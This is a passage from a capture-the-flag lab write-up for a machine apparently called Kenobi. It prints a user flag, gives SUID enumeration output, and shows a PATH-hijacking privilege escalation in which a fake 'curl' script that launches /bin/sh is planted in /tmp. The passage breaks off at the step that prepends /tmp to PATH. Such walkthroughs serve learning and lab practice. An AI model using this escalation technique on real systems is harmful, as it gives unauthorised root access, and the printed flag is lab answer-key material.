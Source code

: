 * **User Flag Obtained:** `d0b0f3f53b6caa532a83915e19224899`.

---

## 5. Privilege Escalation to Root

### 5.1 Local Enumeration as Kenobi

```bash
kenobi@kenobi:~$ uname -r
4.8.0-58-generic

kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/at
/usr/bin/passwd
...
```

* No obvious vulnerable SUID binaries directly (e.g., no outdated SUID in `/usr/local/bin`).
* Kernel version `4.8.0-58-generic` suggests tooling like `Dirty Pipe` is not applicable (Linux 5.8+).

### 5.2 PATH Manipulation via Vulnerable Script

The binary `/usr/bin/menu` runs under `kenobi` and is in the default PATH. It executes certain commands (status check, kernel version, `ifconfig`) by name—without specifying absolute paths. This allows us to hijack one of those commands.

#### 5.2.1 Create a Malicious `curl` in `/tmp`

```bash
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo "/bin/sh" > curl
kenobi@kenobi:/tmp$ chmod 777 curl
```

* **Explanation:**

  * We create a small script named `curl` that simply invokes `/bin/sh`.
  * By granting `777` permissions and placing it in `/tmp`, we ensure `/tmp/curl` is executable by `menu`.

#### 5.2.2 Prepend `/tmp` to PATH and Execute `menu`
